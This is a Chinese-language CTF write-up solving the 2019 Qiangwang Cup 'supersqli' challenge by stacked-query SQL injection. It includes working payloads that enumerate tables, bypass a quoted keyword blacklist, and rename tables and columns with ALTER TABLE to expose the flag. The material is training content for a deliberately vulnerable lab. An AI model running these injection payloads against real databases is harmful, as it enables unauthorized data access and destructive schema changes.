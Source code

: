 # [[强网杯 2019]随便注](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)

## 方法1_修改表名

1. 容器运行起来，只有一个输入框，结合题目名字可能是`sql注入`   

![](./img/onlysearch.png)    

2. 进行输入测试

- 输入框：`1`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

```
- 输入框：`1'`,返回    
```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```
输入框：`1"`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
```
`sql`语句是使用`'`进行闭合的

- 输入：`1' or 1=1;`，看一下这个表所有数据    
    - 表中总共只有三条数据，没有发现`flag`的痕迹    

![](./img/allinfointable.png)   

输入`1`，`2`和`114514`以外的数据返回为空

- 输入：`1' or 1=1;show tables;`，看一下这个库所有表    
```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

- `words`和`1919810931114514`表都感觉像藏`flag`的表。输入：`1' or 1=1;select * from 1919810931114514;`，看一下`1919810931114514`这个奇奇怪怪的表中有没有`flag`   
```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
被识别了，不能运行，不能使用`select|update|delete|drop|insert|where|\./i`这些    

- 不能查看表中数据，只能看表结构……   
输入：
```
1' or 1=1;desc `1919810931114514`;
```

![](./img/desctable.png)    

找到了`flag`可能隐藏的字段，但是不准使用`select`。而且网站默认查询的表是`words`     
```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

3. 到现在能够得到一下信息：
    - 网站的查询语句应该是：`sql='select * from words where id = '%id`
    - `flag`应该就藏在`1919810931114514`表的`flag`字段
    - 输入中不能带有`select|update|delete|drop|insert|where|\./i`这些敏感词

想要`flag`就必须有`select`，但是又限制了`select`输入……

4. 根据[其他人的writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)找到了突破点：**改名**！将`1919810931114514`改成`words`，`flag`字段改成`id`,就可以直接使用原本就有的`select`
```sql
1' or 1=1;alter table `words` rename to `no_use`;alter table `1919810931114514` rename to `words`;alter table words change flag id varchar(100);show tables;desc `words`;# 
```   

![](./img/changetableandflag.png)    

5. 数据库修改成功，现在直接输入`1' or 1=1;`就可以得到`flag`啦   

![](./img/suibianzhu_flag.png)    

## 其他解题步骤

- 后来又发现这道题还有其他[解法](https://www.cnblogs.com/chalan630/p/12583667.html)

## 参考资料

- [题目对应容器-CTFTraining](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)
- [[强网杯 2019]随便注-writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)
- [[强网杯 2019]随便注-三种解题方法](https://www.cnblogs.com/chalan630/p/12583667.html)